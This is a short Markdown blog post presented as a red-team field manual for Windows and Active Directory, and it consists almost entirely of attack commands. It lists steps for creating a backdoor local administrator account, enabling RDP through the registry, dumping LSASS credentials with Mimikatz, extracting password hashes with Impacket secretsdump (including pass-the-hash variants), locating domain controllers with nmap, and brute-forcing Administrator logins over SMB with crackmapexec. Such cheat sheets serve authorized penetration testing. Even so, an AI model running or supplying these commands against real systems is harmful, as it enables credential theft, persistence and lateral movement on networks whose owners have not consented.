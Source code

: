 ```yaml
---
layout: blog
title: Red Team Field Manual
tags: RedTeam, ActiveDirectory
comments: true
date: 2022-12-10
---
```


# Red Team Field Manual
<br />
### Create Local User And Add To Administrators Group
    net user <Username> <Password> /add>
    
    net localgroup Administrators <Username> /add   
  
### List Users In Active Directory

    net users /domain

### Enable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Disable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
    
### Lsass Dump via Mimikatz

    privilege::debug
    sekurlsa::minidump file.DMP (If there is a DMP file)
    sekurlsa::logonpasswords full
    
### Impacket secretsdump - DUMP Local User Hashes via Domain Creds
 
    python3 secretsdump.py <Domain>/<Domain Username>:<Password>@<IP> #Enter with Domain Creds
    
### Impacket secretsdump - DUMP Local User Hashes via Domain NTLM Hash

    python3 secretsdump.py <Domain>/<Domain Username>@<IP> -hashes <NTLM Hash> #Enter with NTLM Hash
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Creds
    
    python3 secretsdump.py <Computer_Hostname>/<Local Username>:<Password>@<IP> #Enter with Local Creds
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Hash

    python3 secretsdump.py <Computer_Hostname>/<Local Username>@<IP> -hashes <NTLM Hash> #Enter with NTLM Hash

### Find Domain Controller In BlackBox Testing

    nmap -p389,636 --open -iL <IP_List_File>  #389(LDAP) / 636(LDAP-SSL)
    
### Crackmapexec Local Administrator Brute Force Attack

    crackmapexec smb <IP List File> -u Administrator -p <Password List File> -d .
    
    
    
    
